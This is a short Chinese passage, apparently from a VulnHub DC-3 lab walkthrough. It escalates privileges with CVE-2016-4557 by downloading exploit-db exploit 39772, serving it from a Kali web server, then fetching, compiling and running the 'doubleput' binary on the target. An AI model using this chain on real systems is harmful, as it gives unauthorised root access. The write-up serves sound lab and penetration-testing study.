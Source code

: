 存在提权漏洞 CVE-2016-4557

找个 EXP 用用
```bash
apt install libfuse-dev
wget https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/39772.zip
```

EXP 传给靶机,kali 启个 web
```
python -m SimpleHTTPServer 80
```

靶机上下载,并运行
```
wget 192.168.141.134/39772.zip
unzip 39772.zip && cd 39772 && tar -xvf exploit.tar
cd ebpf_mapfd_doubleput_exploit && sh compile.sh
./doubleput
```

![](../../../../../assets/img/安全/实验/VulnHub/DC/DC3/19.png)
